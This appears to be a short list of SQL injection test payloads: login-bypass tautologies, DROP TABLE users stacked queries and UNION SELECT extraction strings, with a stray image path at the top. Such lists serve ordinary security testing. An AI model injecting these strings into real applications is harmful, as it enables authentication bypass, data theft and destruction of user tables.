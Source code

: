 # sql

  ' OR '1'='1
  
  " OR "1"="1
  '; DROP TABLE users; --
  "; DROP TABLE users; --
  ' UNION SELECT * FROM users; --
  " UNION SELECT * FROM users; --
